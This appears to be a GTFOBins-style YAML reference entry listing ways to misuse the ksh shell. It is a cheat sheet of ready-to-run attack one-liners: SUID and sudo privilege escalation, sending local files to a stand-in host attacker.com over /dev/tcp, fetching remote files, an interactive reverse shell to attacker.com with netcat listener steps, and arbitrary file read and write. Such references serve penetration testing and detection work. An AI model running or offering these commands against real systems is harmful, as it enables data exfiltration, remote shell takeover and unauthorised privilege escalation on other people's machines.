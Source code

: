 ```yaml
---
functions:
  execute-interactive:
    - code: ksh
  sudo-enabled:
    - code: sudo ksh
  suid-enabled:
    - code: ./ksh -p
  upload:
    - description: Send local file in the body of an HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        ksh -c 'echo -e "POST / HTTP/0.9\n\n$(cat $LFILE)" > /dev/tcp/$RHOST/$RPORT'
    - description: Send local file using a TCP connection. Run `nc -l -p 12345 > "where_to_save"` on the attacker box to collect the file.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        ksh -c 'cat $LFILE > /dev/tcp/$RHOST/$RPORT'
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_get
        ksh -c '{ echo -ne "GET /$LFILE HTTP/1.0\r\nhost: $RHOST\r\n\r\n" 1>&3; cat 0<&3; } \
            3<>/dev/tcp/$RHOST/$RPORT \
            | { while read -r; do [ "$REPLY" = "$(echo -ne "\r")" ] && break; done; cat; } > $LFILE'
    - description: Fetch remote file using a TCP connection. Run `nc -l -p 12345 < "file_to_send"` on the attacker box to send the file.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_get
        ksh -c 'cat < /dev/tcp/$RHOST/$RPORT > $LFILE'
  reverse-shell-interactive:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        ksh -c 'ksh -i > /dev/tcp/$RHOST/$RPORT 2>&1 0>&1'
  file-read:
    - description: It trims trailing newlines.
      code: |
        export LFILE=file_to_read
        ksh -c 'echo "$(<$LFILE)"'
    - description: It trims trailing newlines.
      code: |
        export LFILE=file_to_read
        ksh -c $'read -r -d \x04 < "$LFILE"; echo "$REPLY"'
  file-write:
    - code: |
        export LFILE=file_to_write
        ksh -c 'echo data > $LFILE'
---
```

